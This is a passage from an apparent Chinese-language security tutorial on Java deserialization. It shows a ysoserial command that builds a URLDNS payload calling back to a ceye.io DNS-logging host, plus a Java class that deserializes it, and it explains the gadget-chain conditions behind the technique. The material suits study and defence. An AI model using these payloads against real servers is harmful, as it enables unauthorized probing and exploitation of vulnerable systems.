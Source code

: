 ![image.png](https://img12.360buyimg.com/ddimg/jfs/t1/104075/6/40570/49613/65239babF329f142b/aabeade3222c3f97.jpg)

这个特性就让Java的开发变得非常灵活。比如后面将会讲到的HashMap，其就是将Map中的所有键、值都存储在 objectAnnotation 中，而并不是某个具体属性里。

#### URLDNS

~~~
java -jar ysoserial-all.jar URLDNS http://fl8nw3.ceye.io/ > 123456.ser
~~~

![image.png](https://img12.360buyimg.com/ddimg/jfs/t1/218264/9/27365/7146/6523a09bF2d87921f/65388fcacf074c43.jpg)

将生成的代码和java代码放在一起，给出利用代码

~~~java
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class URLDNSExploit {

    public static void main(String[] args) throws IOException, ClassNotFoundException {

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("123456.ser"));

        objectInputStream.readObject();
    }

}
~~~

![image.png](https://img12.360buyimg.com/ddimg/jfs/t1/127882/10/39815/41010/6523a0c2Fcf30b109/9d5b000927cb1c72.jpg)
![image.png](https://img13.360buyimg.com/ddimg/jfs/t1/197304/20/37429/38732/6523a0caFd98f4ec4/6feabf9680c4cf3b.jpg)
![image.png](https://img10.360buyimg.com/ddimg/jfs/t1/104512/17/46859/46102/6523a0ceF0eae8127/f436b61d325c76be.jpg)

这里dns就直接探测到了，这里的实战场景就是如果123456.ser这里我们是可以控制的，我们就可以通过这个来判断是否出网，以及漏洞是否存在

现在先分析URLDNS利用链，先看ysoserial是如何生成 URLDNS 的代码的：

##### 为什么会这么构造：

产生安全问题的形式：

入口类的参数中包含可控类，该类有危险方法，或者该类再调用其他有危险方法的类，readoject时调用

满足条件：

1）继承Serializable

2）入口类source（需要重写readObject，jdk自带，参数类型泛化）

3）调用链（gadget chain）

4）执行类sink（ssrf，rce等）
